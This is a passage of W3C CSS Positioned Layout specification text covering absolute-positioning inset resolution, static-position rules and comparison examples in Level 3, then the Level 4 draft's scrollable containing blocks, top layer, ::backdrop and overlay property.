##### 3.5.1.  Resolving `auto` Insets {#css-position-3:resolving-inset-auto}

If only one inset property in a given axis is `auto`, it is set to zero.

If both inset properties in a given axis are `auto`, then, depending on the box’s self-alignment property in the relevant axis:

**for `self-start` alignment or its equivalent**

: Set its start-edge inset property to the static position, and its end-edge inset property to zero.

**for `self-end` alignment or its equivalent**

: Set its end-edge inset property to the static position, and its start-edge inset property to zero.

**for `center` alignment**

: Let *start distance* be the distance from the center of its static-position rectangle to the start edge of its containing block, and *end distance* be the distance from the center of its static-position rectangle to the end edge of its containing block. If *start distance* is less than or equal to *end distance*, then set the start-edge inset property to zero, and set the end-edge inset property to (*containing block size* - 2 × |*start distance*|); otherwise, set the end-edge inset property to zero and the start-edge inset property to (*containing block size* - 2 × |*end distance*|).

For the rules above, ignore overflow alignment, and treat `normal` as `start` and any baseline or `stretch` alignment value as its fallback alignment.

##### 3.5.2.  Resolving Overconstrained Insets {#css-position-3:resolving-inset-overconstraint}

If the inset-modified containing block size in any axis is less than zero, then the weaker inset in the affected axis is reduced (possibly becoming negative) to bring that size up to zero. In the case that only one inset is `auto`, that is the **weaker inset** (whose opposite inset is the **stronger inset**); otherwise the weaker inset is the inset of the end edge (where end is interpreted relative to the writing mode of the containing block).

If its self-alignment property in an axis is `normal`, then the resolved value of its weaker inset in that axis is the value necessary to match that edge of its inset-modified containing block to the corresponding edge of its margin box after [layout](#css-position-3:abspos-layout). (Otherwise the resolved value is the used value described above.)

##### 3.5.3.  Calculating the Static Position and the “Static-Position Rectangle” {#css-position-3:staticpos-rect}

When both inset properties in a given axis are `auto`, they are resolved into a **static position** by aligning the box into its **static-position rectangle**, an alignment container derived from the formatting context the box would have participated in if it were `position: static` (independent of its actual containing block). The static position represents an approximation of the position the box would have had if it were `position: static`.

**Block Layout**

: The static positions of a block-level box are defined in [CSS2] Chapter 10. The static-position rectangle is a zero-thickness rectangle spanning between the inline-axis sides of the box’s static-position containing block and positioned at its block-start static position (see [CSS2§10.6.4](#css2:abs-non-replaced-height)).

  > **Note:** In block layout the static-position rectangle corresponds to the position of the “hypothetical box” described in [CSS2.1§10.3.7](#css2:abs-non-replaced-width). Since it has no alignment properties, CSS2.1 always uses a block-start inline-start alignment of the absolutely-positioned box within the static-position rectangle.

**Inline Layout**

: The static positions of an inline-level box are defined in [CSS2] Chapter 10. The static-position rectangle is a zero-thickness rectangle spanning between the line-over/line-under sides of the line box that would have contained its “hypothetical box” (see [CSS2§10.3.7](#css2:abs-non-replaced-width)); and positioned at its inline-start static position.

**Flex Layout**

: The static-position rectangle of the child of a flex container corresponds to the content edges of the flex container in the cross axis, and to the outer edges of its hypothetical position in the main axis. See [static position of a flex container child](#css-flexbox-2:abspos-items) in [CSS-FLEXBOX-1].

**Grid Layout**

: By default, the static-position rectangle of the child of a grid container corresponds to the content edges of the grid container. However, if that grid container also establishes the box’s actual containing block, then the grid area specified by the grid-placement properties establishes its static-position rectangle instead. See the [static position of a grid container child](#css-grid-2:static-position) in [CSS-GRID-1].

Finding the static position and the static-position rectangle assumes that both `float` and `clear` (as well as `position`) have their initial values, and can consequently require assuming a different hypothetical value for `display` as well. (The containing block the element would have had under these conditions is the **static-position containing block**.) To the extent the box alignment properties have an effect, they use the static-position containing block as the effective containing block, including using its writing mode for resolving alignment axes and directions. Additionally, the containing block of fixed positioned elements is assumed to be the initial containing block instead of the viewport, and all scroll containers should be assumed to be scrolled to their initial scroll position. Lastly, all `auto` margins on the box itself are treated as zero.

Boxes in the top layer always use the initial containing block as their static-position rectangle.

### 4.  Absolute Positioning Layout Model {#css-position-3:abspos-layout}

Absolute positioning not only takes a box out of flow, but also lays it out in its containing block (after the final size of the containing block has been determined) according to the **absolute positioning layout model**:

1. First, its inset-modified containing block is calculated, defining its available space. (See [§ 3.5 Absolute (and Fixed) Positioning](#css-position-3:abspos-insets).)

   Because an absolutely positioned box does not affect the size of its containing block, its available space is always definite.
2. Next, its width and height are resolved against this definite available space, as its preferred size capped by its maximum size (if any), floored by its minimum size. See [§ 4.1 Automatic Sizes of Absolutely-Positioned Boxes](#css-position-3:abspos-auto-size). Percentages, however, are resolved against the absolute-position containing block size.
3. Then, the value of any `auto` margins are calculated, see [§ 4.2 Auto Margins of Absolutely-Positioned Boxes](#css-position-3:abspos-margins).
4. Lastly, its margin box is aligned within the inset-modified containing block, see [§ 4.3 Self-Alignment of Absolutely Positioned Boxes](#css-position-3:abspos-alignment).

#### 4.1.  Automatic Sizes of Absolutely-Positioned Boxes {#css-position-3:abspos-auto-size}

The automatic size of an absolutely positioned box is resolved against its inset-modified containing block as follows:

**If its self-alignment property in the relevant axis is `stretch` and neither of its inset properties in that axis are `auto` Or if it is `normal` and the box is non-replaced, not a table wrapper box, and has no `auto` inset in the relevant axis**

: Its automatic size is its stretch-fit size.

**Otherwise**

: Its automatic size is its fit-content size.

However, if the box has an aspect-ratio, then an automatic size in the ratio-dependent axis is instead resolved as a max-content size. When both axes have an automatic size, if only one axis has an `auto` inset then that axis is the ratio-dependent axis, else the block axis is the ratio-dependent axis. An automatic size in the ratio-determining axis is determined as above.

For the purpose of computing these sizes, any `auto` margins are treated as zero.

The automatic minimum size of an absolutely-positioned box is always zero.

> **Note:** To the extent that form controls can be resized (and are not directly representing replaced elements such as images), they are expected to be treated as non-replaced here. In HTML, all form controls other than `<input type=image>` are treated as non-replaced.

#### 4.2.  Auto Margins of Absolutely-Positioned Boxes {#css-position-3:abspos-margins}

If either inset property in the relevant axis is `auto`, then any `auto` margins resolve to zero.

Otherwise, the *remaining space* is calculated as the size of its inset-modified containing block in the relevant axis minus the box’s used size in the relevant axis, and this *remaining space* is divided among any `auto` margins in the relevant axis. However, (all with respect to the writing mode of the containing block), if in the inline axis the *remaining space* is negative and both margins are `auto`, the start margin resolves to zero and the end margin receives the *remaining space*.

> **Note:** Unlike typical in-flow layout, the space distributed to `auto` margins can be negative in absolute positioning.

> **Issue:** What should happen in “negatively-sized” containing blocks? CSS2.1 and this draft currently conflict. [[Issue #11478]](https://github.com/w3c/csswg-drafts/issues/11478)

#### 4.3.  Self-Alignment of Absolutely Positioned Boxes {#css-position-3:abspos-alignment}

If the computed value of either inset property in an axis is `auto`, then its margin box is aligned to the edge of the inset-modified containing block corresponding to its stronger inset (even if this would overflow its containing block).

Otherwise, if either margin is `auto`, its position is resolved according to [§ 4.2 Auto Margins of Absolutely-Positioned Boxes](#css-position-3:abspos-margins).

Otherwise, the box is aligned as specified by its self-alignment property in the relevant axis (as defined by the writing mode of the containing block), using its margin box as the alignment subject and the inset-modified containing block as the alignment container. However, if an explicit overflow alignment is not specified and its margin box overflows the inset-modified containing block, its alignment is adjusted to minimize overflow as specified in [CSS Box Alignment 3 § 4.4.1.2 Self-Alignment for Absolutely Positioned Boxes](#css-align-3:auto-safety-position).

#### 4.4.  Fragmenting Absolutely-positioned Elements {#css-position-3:abspos-breaking}

In a fragmented flow, an absolutely positioned box is positioned relative to its containing block ignoring any fragmentation breaks (as if the flow were continuous). The box may subsequently be broken over several fragmentation containers.

For absolutely positioned content in paged media that resolves to a position on a page other than the page being laid out (the current page), or resolves to a position on the current page that has already been rendered for printing, printers may place the content:

- on the current page,
- on a subsequent page, or
- may omit it altogether.

> **Note:** A block-level element that is split over several pages can have a different width on each page, and there may be device-specific limits.

User agents must not paginate the content of fixed-positioned boxes.

> **Note:** User agents might print invisible content in other ways. See [CSS Paged Media 3 § 3.2 Content outside the page box](#css-page-3:content-outside-box).

### 5.  Old Absolute Positioning Layout Model {#css-position-3:abspos-old}

> **Issue:** This section is being replaced with the new [§ 4 Absolute Positioning Layout Model](#css-position-3:abspos-layout) section. It is preserved here for comparison: both models should yield the same result in horizontal writing modes when the box’s self-alignment is `normal`.

#### 5.1.  The Width of Absolutely-Positioned, Non-Replaced Elements {#css-position-3:abs-non-replaced-width}

The constraint that determines the used values for these elements is:

`left + margin-left + border-left-width + padding-left + width + padding-right + border-right-width + margin-right + right = width of containing block`

If all three of `left`, `width`, and `right` are `auto`: First set any `auto` values for `margin-left` and `margin-right` to `0`. Then, if the `direction` property of the element establishing the static-position containing block is `ltr` set `left` to the static position and apply rule number *three* below; otherwise, set `right` to the static-position and apply rule number *one* below.

If none of the three is `auto`: If both `margin-left` and `margin-right` are `auto`, solve the equation under the extra constraint that the two margins get equal values, unless this would make them negative, in which case when direction of the containing block is `ltr` (`rtl`), set `margin-left` (`margin-right`) to `0` and solve for `margin-right` (`margin-left`). If one of `margin-left` or `margin-right` is `auto`, solve the equation for that value. If the values are over-constrained, ignore the value for `left` (in case the `direction` property of the containing block is `rtl`) or `right` (in case `direction` is `ltr`) and solve for that value.

Otherwise, set `auto` values for `margin-left` and `margin-right` to `0`, and pick one of the following six rules that apply.

1. If `left` and `width` are `auto` and `right` is not `auto`, then the width is shrink-to-fit. Then solve for `left`.
2. If `left` and `right` are `auto` and `width` is not `auto`, then if the `direction` property of the element establishing the static-position containing block is `ltr` set `left` to the static-position, otherwise set `right` to the static-position. Then solve for `left` (if `direction` is `rtl`) or `right` (if `direction` is `ltr`).
3. If `width` and `right` are `auto` and `left` is not `auto`, then the width is shrink-to-fit. Then solve for `right`.
4. If `left` is `auto`, `width` and `right` are not `auto`, then solve for `left`.
5. If `width` is `auto`, `left` and `right` are not `auto`, then solve for `width`.
6. If `right` is `auto`, `left` and `width` are not `auto`, then solve for `right`.

| Is auto? | Result |  |  |  |  |
| --- | --- | --- | --- | --- | --- |
| `left` | `width` | `right` | `margin-left` | `margin-right` |  |
| ✔ | ✔ | ✔ | any | auto margins → zero left → static pos width → shrink-to-fit right → solve |  |
| ✘ | ✘ | ✘ | ✔ | ✘ | auto margin → free space |
| ✘ | ✔ |  |  |  |  |
| ✔ | ✔ | margins split positive free space right margin gets negative free space |  |  |  |
| ✘ | ✘ | treat `right` as `auto` |  |  |  |
| ✔ | ✘ | ✔ | any | auto margins → zero left → static pos width → as specified right → solve |  |
| ✔ | ✔ | ✘ | any | auto margins → zero left → solve width → shrink-to-fit right → as specified |  |
| ✘ | ✔ | ✔ | any | auto margins → zero left → as specified width → shrink-to-fit right → solve |  |
| ✔ | ✘ | ✘ | any | auto margins → zero solve for auto |  |
| ✘ | ✘ | ✔ |  |  |  |
| ✘ | ✔ | ✘ |  |  |  |

#### 5.2.  The width of absolute or fixed positioned, replaced elements {#css-position-3:abs-replaced-width}

If `height` and `width` both have computed values of `auto` and the element also has an intrinsic width, then that intrinsic width is the used value of `width`.

If `height` and `width` both have computed values of `auto` and the element has no intrinsic width, but does have an intrinsic height and intrinsic ratio; or if `width` has a computed value of `auto`, `height` has some other computed value, and the element does have an intrinsic ratio; then the used value of `width` is:

`(used height) * (intrinsic ratio)`

If `height` and `width` both have computed values of `auto`, the element has an intrinsic ratio but no intrinsic height or width, and the containing block’s width does not itself depend on the replaced element’s width, then the used value of `width` is calculated from the constraint equation used for [block-level, non-replaced elements in normal flow](#css2:blockwidth).

Otherwise, if `width` has a computed value of `auto`, and the element has an intrinsic width, then that intrinsic width is the used value of `width`.

Otherwise, if `width` has a computed value of `auto`, but none of the conditions above are met, and then the used value of `width` becomes `300px`. If `300px` is too wide to fit the device, user agents should use the width of the largest rectangle that has a 2:1 ratio and fits the device instead.

After establishing the `width`, in order to position the replaced element, apply the following rules as appropriate.

1. If both `left` and `right` have the value `auto`, and if the `direction` property of the element establishing the static-position containing block is `ltr`, set `left` to the static position and solve for `right`; else if `direction` is `rtl`, set `right` to the static position and solve for `left`.
2. If `left` is `auto` and `right` is not `auto`, replace any `auto` on `margin-left` or `margin-right` with `0`, then solve for `left`.
3. If `right` is `auto` and `left` is not `auto`, replace any `auto` on `margin-left` or `margin-right` with `0`, then solve for `right`.
4. If at this point both `margin-left` and `margin-right` are still `auto`, solve the equation under the extra constraint that the two margins must get equal values, unless this would make them negative, in which case when the direction of the containing block is `ltr` (`rtl`), set `margin-left` (`margin-right`) to `0` and solve for `margin-right` (`margin-left`).
5. If at this point there is an `auto` remaining, solve the equation for that value.
6. If at this point the values are over-constrained, ignore the value for either `left` (in case the `direction` property of the containing block is `rtl`) or `right` (in case `direction` is `ltr`) and solve for that value.

#### 5.3.  The Height Of Absolutely Positioned, Non-Replaced Elements {#css-position-3:abs-non-replaced-height}

For absolutely positioned elements, the used values of the vertical dimensions must satisfy this constraint:

`top + margin-top + border-top-width + padding-top + height + padding-bottom + border-bottom-width + margin-bottom + bottom = height of containing block`

If all three of `top`, `height`, and `bottom` are `auto`: First set any `auto` values for `margin-top` and `margin-bottom` to `0`, then set `top` to the static position, and finally apply rule number *three* below.

If none of the three are `auto`: If both `margin-top` and `margin-bottom` are `auto`, solve the equation under the extra constraint that the two margins get equal values. If one of `margin-top` or `margin-bottom` is `auto`, solve the equation for that value. If the values are over-constrained, ignore the value for `bottom` and solve for that value.

Otherwise, set `auto` values for `margin-top` and `margin-bottom` to `0`, and pick one of the following six rules that apply.

1. If `top` and `height` are `auto` and `bottom` is not `auto`, then the height is based on the [Auto heights for block formatting context roots](#css2:root-height), and solve for `top`.
2. If `top` and `bottom` are `auto` and `height` is not `auto`, then set `top` to the static position, then solve for `bottom`.
3. If `height` and `bottom` are `auto` and `top` is not `auto`, then the height is based on the [Auto heights for block formatting context roots](#css2:root-height), and solve for `bottom`.
4. If `top` is `auto`, `height` and `bottom` are not `auto`, then solve for `top`.
5. If `height` is `auto`, `top` and `bottom` are not `auto`, then solve for `height`.
6. If `bottom` is `auto`, `top` and `height` are not `auto`, then solve for `bottom`.

#### 5.4.  The Height Of Absolutely Positioned, Replaced Elements {#css-position-3:abs-replaced-height}

If `height` and `width` both have computed values of `auto` and the element also has an intrinsic height, then that intrinsic height is the used value of `height`.

Otherwise, if `height` has a computed value of `auto` and the element has an intrinsic ratio then the used value of `height` is:

`(used width) / (intrinsic ratio)`

Otherwise, if `height` has a computed value of `auto` and the element has an intrinsic height, then that intrinsic height is the used value of `height`.

Otherwise, if `height` has a computed value of `auto`, but none of the conditions above are met, then the used value of `height` must be set to the height of the largest rectangle that has a 2:1 ratio, has a height not greater than `150px`, and has a width not greater than the device width.

After establishing the `height`, in order to position the replaced element, apply the following rules as appropriate.

1. If both `top` and `bottom` have the value `auto`, replace `top` with the element’s static position.
2. If `bottom` is `auto`, replace any `auto` on `margin-top` or `margin-bottom` with `0`.
3. If at this point both `margin-top` and `margin-bottom` are still `auto`, solve the equation under the extra constraint that the two margins must get equal values.
4. If at this point there is only one `auto` remaining, solve the equation for that value.
5. If at this point the values are over-constrained, ignore the value for `bottom` and solve for that value.

### 6.  Informative Comparison of Normal Flow, Floats, and Positioning {#css-position-3:comparison}

*This section is not normative.*

To illustrate the differences between normal flow, relative positioning, floats, and absolute positioning, we provide a series of examples based on the following HTML:

> **Example:** ```html
> <!DOCTYPE html>
> <html>
>     <head>
>         <title>Comparison of positioning schemes</title>
>         <style>
>           body { display: block; font-size:12px; line-height: 200%;
>                   width: 400px; height: 400px }
>           p		{ display: block }
>           span { display: inline }
>         </style>
>     </head>
>     <body>
>     <p>
>         Beginning of p contents.
>         <span id="outer"> Start of outer contents.
>         <span id="inner"> Inner contents.</span>
>         End of outer contents.</span>
>         End of p contents.
>     </p>
>     </body>
> </html>
> ```

The final positions of boxes generated by the *outer* and *inner* elements vary in each example. In each illustration, the numbers to the left of the illustration indicate the normal flow position of the double-spaced (for clarity) lines.

> **Note:** The diagrams in this section are illustrative and not to scale. They are meant to highlight the differences between the various positioning schemes, and are not intended to be reference renderings of the examples given.

#### 6.1.  Normal Flow Example {#css-position-3:comp-normal-flow}

Consider the following CSS declarations for *outer* and *inner* that do not alter the normal flow of boxes:

> **Example:** ```css
> #outer { color: red }
> #inner { color: blue }
> ```

The P element contains all inline content: [anonymous inline text](#css2:anonymous) and two SPAN elements. Therefore, all of the content will be laid out in an inline formatting context, within a containing block established by the P element, producing something like:


All of the text within the P’s containing block flows together as continuous text, even though it’s located in separated nested elements.

#### 6.2.  Relative Positioning Example {#css-position-3:comp-relpos}

To see the effect of relative positioning, we specify:

> **Example:** ```css
> #outer { position: relative; top: -12px; color: red }
> #inner { position: relative; top: 12px; color: blue }
> ```

Text flows normally up to the *outer* element. The *outer* text is then flowed into its normal flow position and dimensions at the end of line 1. Then, the inline boxes containing the text (distributed over three lines) are shifted as a unit by `-12px` (upwards).

The contents of *inner*, as a child of *outer*, would normally flow immediately after the words "of outer contents" (on line 1.5). However, the *inner* contents are themselves offset relative to the *outer* contents by `12px` (downwards), back to their original position on line 2.

> **Note:** that the content following *outer* is not affected by the relative positioning of *outer*.


The result is identical to normal flow, except that the "outer" text is shifted 12px upward, without affecting the flow of the "body" or "inner" text.

> **Note:** also that had the offset of *outer* been `-24px`, the text of *outer* and the body text would have overlapped.

#### 6.3.  Floating Example {#css-position-3:comp-floating}

Now consider the effect of  [floating](#css2:floats) the *inner* element’s text to the right by means of the following rules:

> **Example:** ```css
> #outer { color: red }
> #inner { float: right; width: 130px; color: blue }
> ```

Text flows normally up to the *inner* box, which is pulled out of the flow and floated to the right margin (its `width` has been assigned explicitly). Line boxes to the left of the float are shortened, and the document’s remaining text flows into them.


The "inner" text lays out in an independent box on the right, causing the remaining "body" and "outer" text to flow around it.

To show the effect of the `clear` property, we add a *sibling* element to the example:

> **Example:** ```html
> <!DOCTYPE html>
> <html>
>     <head>
>         <title>Comparison of positioning schemes II</title>
>         <style>
>           #inner { float: right; width: 130px; color: blue }
>           #sibling { color: red }
>         </style>
>     </head>
>     <body>
>     <p>
>         Beginning of p contents.
>         <span id="outer"> Start of outer contents.
>         <span id="inner"> Inner contents.</span>
>         <span id="sibling"> Sibling contents.</span>
>         End of outer contents.</span>
>         End of p contents.
>     </p>
>     </body>
> </html>
> ```

These styles cause the *inner* box to float to the right, as before, and the document’s remaining text to flow into the vacated space:


Identical to the previous example, save that there is now "sibling" text flowing with the "body" and "outer" text.

However, if the `clear` property on the *sibling* element is set to `right` (i.e., the generated *sibling* box will not accept a position next to floating boxes to its right), the *sibling* content begins to flow below the float:

> **Example:** ```css
> #inner { float: right; width: 130px; color: blue }
> #sibling { clear: right; color: red }
> ```


Now the "sibling" text moves down to below the "inner" text’s box, leaving blank space behind. The text following the "sibling" text flows after it as normal.

#### 6.4.  Absolute Positioning Example {#css-position-3:comp-abspos}

Next, we consider the effect of absolute positioning. Consider the following CSS declarations for *outer* and *inner*:

> **Example:** ```css
> #outer {
>     position: absolute;
>     top: 200px; left: 200px;
>     width: 200px;
>     color: red;
> }
> #inner { color: blue }
> ```

which cause the top of the *outer* box to be positioned with respect to its containing block. The containing block for a positioned box is established by the nearest positioned ancestor (or, if none exists, the initial containing block, as in our example). The top side of the *outer* box is `200px` below the top of the containing block and the left side is `200px` from the left side. The child box of *outer* is flowed normally with respect to its parent.


All of the text within #outer (the "outer" and "inner" text) moves down to an independent box in the lower right corner. The two halves of "body" text flow together.

The following example shows an absolutely positioned box that is a child of a relatively positioned box. Although the parent *outer* box is not actually offset, setting its `position` property to `relative` means that its box may serve as the containing block for positioned descendants. Since the *outer* box is an inline box that is split across several lines, the first inline box’s top and left edges (depicted by thick dashed lines in the illustration below) serve as references for `top` and `left` offsets.

> **Example:** ```css
> #outer {
>     position: relative;
>     color: red
> }
> #inner {
>     position: absolute;
>     top: 200px; left: -100px;
>     height: 130px; width: 130px;
>     color: blue;
> }
> ```

This results in something like the following:


The "inner" text is positioned in an independent box, relative to the top-left corner of the start of the "outer" text.

If we do not position the *outer* box:

> **Example:** ```css
> #outer { color: red }
> #inner {
>   position: absolute;
>   top: 200px; left: -100px;
>   height: 130px; width: 130px;
>   color: blue;
> }
> ```

the containing block for *inner* becomes the initial containing block (in our example). The following illustration shows where the *inner* box would end up in this case.


Same as before, except now the "inner text" is positioned relative to the top-left corner of the page itself.

Relative and absolute positioning may be used to implement change bars, as shown in the following example. The following fragment:

> **Example:** ```html
> <p style="position: relative; margin-right: 10px; left: 10px;">
>   I used two red hyphens to serve as a change bar. They
>   will "float" to the left of the line containing THIS
>   <span style="position: absolute; top: auto; left: -1em; color: red;">--</span>
>   word.
> </p>
> ```

might result in something like:


The two red hyphens, indicating a change, sit in the left margin of the page on the line containing the word "THIS", regardless of what line that ends up being.

First, the paragraph (whose containing block sides are shown in the illustration) is flowed normally. Then it is offset `10px` from the left edge of the containing block (thus, a right margin of `10px` has been reserved in anticipation of the offset). The two hyphens acting as change bars are taken out of the flow and positioned at the current line (due to 'top: auto'), `-1em` from the left edge of its containing block (established by the P in its final position). The result is that the change bars seem to "float" to the left of the current line.

---

## CSS Positioned Layout Module Level 4 {#css-position-4}

- **Shortname:** `css-position-4`
- **Editor's Draft:** [https://drafts.csswg.org/css-position-4/](https://drafts.csswg.org/css-position-4/)
- **Published TR:** [https://www.w3.org/TR/css-position-4/](https://www.w3.org/TR/css-position-4/)
- **W3C Status:** ED (exploring)
- **Last Edited:** 2025-12-25
- **Diff Specification Over:** [CSS Positioned Layout Module Level 3 (`css-position-3`)](#css-position-3)

### 1. Introduction {#css-position-4:intro}

This is an early delta spec over [css-position-3].

### 2. Scrollable Containing Block {#css-position-4:scrollable-cb}

When a scroll container establishes an absolute positioning containing block for an absolutely positioned box, one of three possible containing blocks are used:

****fixed containing block****

: The fixed containing block of a scroll container corresponds to the scrollport, i.e. the inner padding box edges of the scroll container, but scrolling with the outer context, not the scroll container’s contents.

  The fixed containing block established by the document is the fixed positioning containing block.

****local containing block****

: The local containing block of a scroll container corresponds to the padding box edges of the scroll container, but is affixed to the scrollable overflow area, and scrolls with the scroll container’s contents.

  The local containing block established by the document is the initial containing block.

****scrollable containing block****

: The scrollable containing block of a scroll container corresponds to the padding edge of the scroll container’s scrollable overflow area, i.e. the outer edge of the padding surrounding its content when determining the extent of its scrollable overflow area. See [CSS Overflow 3 § 2.2 Scrollable Overflow](#css-overflow-3:scrollable). In all cases the scrollable containing block at least encompasses the local containing block.

  > **Note:** This includes floats, but ignores absolutely positioned descendants, content overflowing descendant boxes, and the effects of relative positioning and transforms, which do otherwise extend the scrollable area to display them.

  The scrollable containing block established by the document is the union of the initial containing block and the margin box of the root element’s generated box.

> **Note:** While all of these are in some sense corresponding to the padding box, they do not coincide for boxes with scrollable overflow.

> **Issue:** Figure out the exact concepts needed for top layer. They probably want to do something a tiny bit different, specific to their layer.

Unless otherwise specified, absolutely positioned boxes use the local containing block. Certain CSS features can specify a different containing block. For example, fixed-positioned boxes typically use the document’s fixed containing block, and `position-area` values other than `none` can opt absolutely positioned boxes into the scrollable containing block.

> **Note:** There is not currently any way to refer to a fixed containing block other than the fixed positioning containing block, but one might be added in the future.

### 3. Top Layer {#css-position-4:top-layer}

`Document`s have a **top layer**, an ordered set containing elements from the document. Elements in the top layer do not lay out normally based on their position in the document; instead they generate boxes as if they were siblings of the root element. Top layer elements are rendered in the order they appear in the top layer; the last element in the top layer is rendered on top of everything else.

> **Note:** This special rendering behavior ensures that elements in the top layer cannot be clipped by anything in the document, or obscured by anything except elements later in the top layer. This ensures that things like [popovers](https://html.spec.whatwg.org/multipage/popover.html#the-popover-attribute) can be displayed reliably, regardless of what their ancestor elements might be doing.

The **top layer root** of an element is its nearest ancestor element that is in the top layer, or none otherwise (in which case it’s painted as part of the document as normal).

Two elements are **in the same top layer** if they have the same top layer root (including if both are none). An element A is **in a higher top layer** than an element B if A has a top layer root, and either B has a top layer root earlier in the top layer than A’s, or B doesn’t have a top layer root at all.

> **Note:** The top layer is managed entirely by the user agent; it cannot be directly manipulated by authors. This ensures that "nested" invocations of top-layer-using APIs, like a popup within a popup, will display correctly.

> **Note:** The top layer interacts with the `overlay` property in a somewhat unusual way. See `overlay` for details.

`Document`s also have a **pending top layer removals** ordered set, containing elements that are pending removal. (See the algorithms, below, for details on how this is used.)

The top layer (and the pending top layer removals) should not be interacted with directly by specification algorithms. (Individual features using the top layer might have ownership over various things in the top layer, like a popover inside of a popover, that need to be reordered or moved as a group.) Instead, specifications should use the following algorithms.

#### 3.1. Top Layer Styling {#css-position-4:top-styling}

Every element rendered in the top layer, as well as its corresponding `::backdrop` pseudo-element, are rendered with the following qualities:

- It generates a new stacking context.
- Its parent stacking context is the root stacking context.
- It is rendered as an atomic unit as if it were a sibling of the document’s root.

  > **Note:** Ancestor elements with `overflow`, `opacity`, `mask`, etc. cannot affect it.
- If its `position` property computes to `fixed`, its containing block is the viewport; otherwise, it’s the initial containing block.
- If it is an element, it and its `::backdrop` pseudo-element are not rendered if its shadow-including inclusive ancestor has the `display: none`.
- If its specified `display` property is `contents`, it computes to `block`.
- If its specified `position` property is not `absolute` or `fixed`, it computes to `absolute`.
- Unless overridden by another specification, its static position for left, right, and top is zero.

#### 3.2. The `::backdrop` Pseudo-Element {#css-position-4:backdrop}

Each element rendered in the top layer has a **::backdrop** pseudo-element, for which it is the originating element.

When its computed `content` value is not `none`, `::backdrop` pseudo-elements generate boxes as if they were siblings of the root element. They’re automatically rendered as a separate item in the top layer, below their originating element. (See "paint a document" for details.)

> **Note:** The `::backdrop` pseudo-element can be used to create a backdrop that hides the underlying document for an element in a top layer (such as an element that is displayed fullscreen).

The `::backdrop` pseudo-element is a fully styleable pseudo-element.

User agents should contain the following rules in a UA-level style sheet:

```
::backdrop {
  position: fixed;
  inset: 0;
}
```

Other specifications can additional properties to the default `::backdrop` rendering.

> **Note:** For example, a fullscreen element (see [FULLSCREEN]) styles its `::backdrop` as opaque black by default.

See [§ 3.1 Top Layer Styling](#css-position-4:top-styling) for additional details on how `::backdrop` elements are rendered.

#### 3.3. Top Layer Manipulation {#css-position-4:top-manip}

An element *el* is **in the top layer** if *el* is contained in its node document’s top layer but *not* contained in its node document’s pending top layer removals.

> **Note:** Specs should use this concept, rather than rendered in the top layer, when they are manipulating the top layer itself. Using this concept avoids the behavior being different based on whether there’s an `overlay` transition, or whether two operations happened *between* rendering updates or *across* them.

An element *el* is **rendered in the top layer** if *el* is contained in its node document’s top layer, and *el* has `overlay: auto`.

> **Note:** Specs should use this concept, rather than in the top layer, when they are not manipulating the top layer itself, but rather responding to the rendering behavior of being "on top of everything". For example, the presence of a `::backdrop` pseudo relies on the element being rendered in the top layer; even if the element is pending removal, it has a `::backdrop` as long as it’s being displayed on top of everything.

To **add an element to the top layer**, given an `Element` *el*:

1. Let *doc* be *el*’s node document.
2. If *el* is already contained in *doc*’s top layer:

  - Assert: *el* is also in *doc*’s pending top layer removals. (Otherwise, this is a spec error.)
  - Remove *el* from both *doc*’s top layer and pending top layer removals.
3. Append *el* to *doc*’s top layer.
4. At the UA !important cascade origin, add a rule targeting *el* containing an `overlay: auto` declaration.

To **request an element to be removed from the top layer**, given an `Element` *el*:

1. Let *doc* be *el*’s node document.
2. If *el* is not contained *doc*’s top layer, or *el* *is* already contained in *doc*’s pending top layer removals, return.
3. Remove the UA !important `overlay: auto` rule targeting *el*.
4. Append *el* to *doc*’s pending top layer removals.

To **remove an element from the top layer immediately**, given an `Element` *el*:

1. Let *doc* be *el*’s node document.
2. Remove *el* from *doc*’s top layer and pending top layer removals.
3. Remove the UA !important `overlay: auto` rule targeting *el*, if it exists.

> **Note:** This algorithm is only intended to be used in special cases where removing something from the top layer immediately (bypassing things like an `overlay` transition) is necessary, such as a modal dialog that is removed from the document. Most of the time, requesting removal from the top layer is more appropriate.

To **process top layer removals**, given a `Document` *doc*:

1. For each element *el* in *doc*’s pending top layer removals: if *el*'s computed value of `overlay` is `none`, or *el* is not rendered, remove from the top layer immediately *el*.

> **Note:** This is intended to be called during the "Update the Rendering" step of HTML’s rendering algorithm. It is not intended to be called by other algorithms.

> **Note:** The `overlay` check can be delayed arbitrarily long by author-level transitions; see [§ 3.4 Controlling the Top Layer: the overlay property](#css-position-4:overlay) for details.

#### 3.4. Controlling the Top Layer: the `overlay` property {#css-position-4:overlay}

| Field | Value |
| --- | --- |
| Name: | **overlay** |
| [Value:](#css-values-4:value-defs) | none \| auto |
| [Initial:](#css-cascade-6:initial-values) | none |
| [Applies to:](#css-cascade-5:applies-to) | [all elements](#css-pseudo-4:generated-content) |
| [Inherited:](#css-cascade-5:inherited-property) | no |
| [Percentages:](#css-values-4:percentages) | n/a |
| [Computed value:](#css-cascade-6:computed) | as specified |
| [Canonical order:](#cssom-1:serializing-css-values) | per grammar |
| [Animation type:](#web-animations-1:animation-type) | see prose |

When an element is in the top layer, the `overlay` property determines whether it is actually rendered in the top layer or not.

****none****

: The element isn’t rendered in the top layer.

****auto****

: The element is rendered in the top layer if it is in the top layer.

  Rather than generating boxes as part of its normal position in the document, it generates boxes as a sibling of the root element, rendered "above" it.

> **Note:** `overlay` is a somewhat unusual property, as it is *only* set by the user agent, and can’t be set by authors *at all*.
>
> However, authors *do* have the ability to affect *when* `overlay` changes its value, by setting a `transition` on the property. This allows an author to align an animation with the transition, with the element moving in or out of the top layer only at the desired point in the animation. This allows, for example, an animation that causes an element to fade out of its normal position on the page, then fade in at its new top-layer position, or vice versa.

For animation, `auto` is interpolated as a discrete step where values of p such that `0 < p < 1` map to `auto` and other values of p map to the closer endpoint; if neither value is `auto` then discrete animation is used.

> **Note:** This is similar to how `visibility` animates. With most easing functions, this will keep the element rendered in the top layer for the entire duration of the transition, whether it’s entering or leaving the top layer. `step-start`/`step-end`/`linear()` can be used to control when the value flips more precisely.

User agents must have the following rule in their UA stylesheet:

```
* { overlay: none !important; }
```

> **Note:** This means that the `overlay` property *cannot be set by authors or users*—​it is entirely controlled by the user agent (which sets elements to `overlay: auto`, via another UA-!important rule, when they’re in the top layer).

User agents *may*, at their discretion, remove a running transition on `overlay`. The conditions for this are intentionally undefined. (This is to prevent potential abuse scenarios where a `transition: overlay 1e9s;` or similar attempts to keep an element in the top layer permanently.)

### 4. Painting Order and Stacking Contexts {#css-position-4:painting-order}

